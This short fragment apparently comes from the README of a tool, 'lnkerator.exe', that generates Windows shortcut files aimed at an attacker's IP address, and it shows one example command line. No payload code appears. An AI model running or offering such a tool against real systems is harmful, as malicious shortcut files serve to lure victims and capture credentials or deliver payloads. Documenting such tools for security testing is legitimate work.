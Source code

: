 ﻿Argument 1: Attacker IP Address  
Argument 2: Lnk Filename to Generate 

> .\lnkerator.exe 192.168.254.118 test  
